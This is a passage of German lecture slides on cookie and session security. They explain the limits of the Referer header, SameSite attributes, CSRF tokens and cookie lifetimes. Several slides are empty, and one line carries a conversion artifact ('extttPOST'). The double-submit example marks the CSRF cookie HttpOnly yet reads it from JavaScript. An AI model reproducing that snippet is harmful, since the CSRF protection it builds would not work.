Die Antwort ist `public` cachebar. Der Cache kann sie später an andere ausliefern – der Referer-Schutz greift dann nicht mehr.
:::
:::
::::


---

## Referer-Header kann CSRF nicht mitigieren {.content-slide .pdf-slide}
<br>

::: {.callout-important title="Vorsicht"}
HTTP-Caches sind ein Problem    
- Varianz hinzufügen: Referer-Header variieren
- Oder Cache-Control Header setzen

`Cache-Control: no-store`
::: 

::: {.callout-important title="Vorsicht"}
Seiten können darauf verzichten, den Referer-Header zu senden
:::

::: {.callout-important title="Vorsicht"}
Browser-Erweiterungen können den Referer-Header bewusst auslassen (Datenschutz)
:::

---

## SameSite-Cookies {.content-slide .code-slide}
<br>

- SameSite-Cookie-Attribut verhindert, dass Cookies bei Requests von anderen Seiten
mitgesendet werden
- Drei Werte:
     - SameSite=None: Cookie wird immer gesendet
     - SameSite=Lax: Cookies werden bei eingebetteten Anfragen von anderen Domains nicht
gesendet; bei Top-Level-Navigation per GET können sie gesendet werden
     - SameSite=Strict: Cookie wird nur bei Requests an die gleiche Domain gesendet

```html
   Set-Cookie: key=value; Secure; HttpOnly; Path=/; SameSite=Lax
```

- IETF-Standardisierungsvorschlag: SameSite=Lax als Standardwert [1]

---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>

#### Server Antwort von bank.com:

```html
HTTP/1.1 200 OK
Set-Cookie: sessionID=1234; SameSite=Lax
```

#### Top-level und Unterseiten-Requests von bank.com:

```html
POST /transfer HTTP/1.1
Cookie: sessionID=1234
```

#### Requests von attacker.com:
```html
extttPOST /transfer HTTP/1.1 (Cookie-Header fehlt)
```

---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>

---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## SameSite-Cookies in Aktion {.content-slide .code-slide}
<br>


---

## CSRF-Verteidigung: Token {.content-slide .code-slide}
<br>

- Primäre Abwehr: serverseitige CSRF-Tokens (Synchronizer Token)
- Token pro Session/Request generieren, im Formular als Hidden-Field mitsenden
- Server verifiziert Token und lehnt Anfragen ohne gültiges Token ab

```html
<form method="POST" action="/transfer">
  <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
  <!-- weitere Felder -->
  <button type="submit">Überweisen</button>
</form>
```
```html
// Beispiel: Double-Submit Cookie Variante
// Server setzt: Set-Cookie: csrf={{ token }}; SameSite=Lax; Secure; HttpOn
// Client sendet Token zusätzlich im Body/Header
fetch('/transfer', {
  method: 'POST',
  headers: { 'X-CSRF-Token': getCookie('csrf') },
  body: new URLSearchParams({ amount: '100' })
})
```

---

## Wie lange sollten Cookies gelten? {.content-slide .code-slide}
<br>

- Wenn `Expires` oder `Max-Age` nicht gesetzt sind, wird Cookie gelöscht, wenn Browser
geschlossen wird
- Empfehlung: Sinnvolle Lebensdauer für Cookies festlegen – in der Regel 30–90 Tage
     - Man kann existierende Cookies immer wieder überschreiben, um den Ablauf zurückzusetzen
     - 2007: The Google Blog announced that Google will be shortening the expiration date of its
cookies from the year 2038 to a two-year life cycle.

```html
  Set-Cookie: key=value; Secure; HttpOnly; Path=/; SameSite=Lax;
```
```html
Expires=Sun, 1 Aug 2027 00:00:00 GMT
```

---

## Framework-Funktionen nutzen {.content-slide .code-slide}
<br>

```html
 1     res.cookie('sessionId', sessionId, {
 2         secure: true,
 3         httpOnly: true,
 4         sameSite: 'lax',
 5         maxAge: 30 * 24 * 60 * 60 * 1000 // 30 days
 6     })
 7
 8     res.clearCookie('sessionId', {
 9         secure: true,
10         httpOnly: true,
11         sameSite: 'lax'
12     })
```

---

## Zusammenfassung: Cookie- und Session-Security {.content-slide .pdf-slide}
<br>

#### Cookie-Attribute
- Secure: Nur über HTTPS senden
- HttpOnly: Kein JavaScript-Zugriff (XSS-Schutz)
- SameSite=Lax: CSRF-Schutz als Default
- Path=/: Nicht für Security nutzen

#### Session-Management
- Session-ID nach Login rotieren
- Serverseitige Invalidierung bei Logout/Timeout
- Kurze Gültigkeit, keine sensiblen Daten im Cookie

#### CSRF-Schutz
- CSRF-Tokens für zustandsändernde Aktionen
- Kritische Aktionen nur per POST/PUT

---

## Vernünftiger Cookie-Default {.content-slide .code-slide}
<br>

:::{.callout-important title="Goldene Regel"}
Niemals Daten vom Client vertrauen!
:::
<br>

**Empfohlene Attribute** (Expires dynamisch setzen):

```html
Set-Cookie: key=value; Secure; HttpOnly; Path=/; SameSite=Lax;
```
```html
Expires=<Datum in 30-90 Tagen>;
```

---

## Literaturverzeichnis I {.content-slide .code-slide}
<br>

[1]    Mike West. Incrementally Better Cookies. Internet-Draft draft-west-cookie-incrementalism-
01. Work in Progress. Internet Engineering Task Force, 15. März 2020. 17 S. URL: https:

```html
       //datatracker.ietf.org/doc/draft-west-cookie-incrementalism/01/.
```

---

## Vielen Dank! {.title-slide data-state="hide-footer"}


Prof. Dr. Lukas Iffländer   
HTW Dresden  


